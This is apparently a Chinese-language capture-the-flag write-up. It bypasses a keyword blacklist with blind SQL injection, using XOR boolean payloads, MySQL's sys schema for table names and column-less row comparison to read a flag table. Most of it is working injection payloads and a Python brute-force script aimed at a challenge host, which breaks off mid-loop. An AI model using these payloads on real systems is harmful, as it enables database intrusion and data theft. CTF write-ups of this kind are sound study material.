 黑名单:`union.*select,or,in`

因为盲注太麻烦,所以想用preg回溯次数来绕过,但是没用,最后也只能盲注了

用`0 ^ (1=0)`来盲注,因为过滤了`in`所以用sys系统库来绕过(` https://xz.aliyun.com/t/7169#toc-53 `)

`0 ^ (select substr(hex(group_concat(table_name)),1,1) from (SELECT table_name FROM sys.schema_table_statistics WHERE table_schema=database() GROUP BY table_name)a)`

获取表名之后,还有一个难点就是,列名的获取,但是获取列名会用到`in`字符

因此考虑,无列名注入`union select`那个肯定不行

我们利用`((select 1,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))`来获取flag

当我们利用这个时,我们必须保证某一个相等,才能通过另外一个判断flag

有一点要注意的是

```
mysql> select 'f'='F';
+---------+
| 'f'='F' |
+---------+
|       1 |
+---------+
```

用这种方法是无法区分大小写的,所幸这次比赛的flag都是小写

脚本

```python
import requests
import string

sql="1 ^ ((select substr(hex(group_concat(table_name)),POS,1) from (SELECT table_name FROM sys.schema_table_statistics WHERE table_schema=database() GROUP BY table_name)a)=GUESS)"
#f1ag_1s_h3r3_hhhhh,users233333333333333
result=""
# l=len(result)
# while True:
#     l+=1
#     ended=True
#     for i in string.printable:
#         sql="1 ^ ((select 0,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))"
#         sql=sql.replace("POS",str(l))
#         sql=sql.replace("GUESS",(result+i).encode("hex").upper())
#         res=requests.post("http://c957eb4253fb4275856dc45eb06d11ab05103bcf405348ab.changame.ichunqiu.com/index.php",data={"id":sql})
#         print(sql)
#         if "Hello Nu1L" in res.text:
#             result+=i
#             print(result)
#             ended=False
#             break
#     if ended:
#         break

#FLAG{9AD0BB6D-634F-4AEC-9DD8-B617774CD334}
l=len(result)
while True:
    l+=1
    ended=True
    for j in range(32,128):
        i=chr(j)
        sql="0 ^ ((select 1,GUESS)>(select * from f1ag_1s_h3r3_hhhhh))"
        sql=sql.replace("POS",str(l))
        sql=sql.replace("GUESS",'0x'+(result+i).encode("hex").upper())
```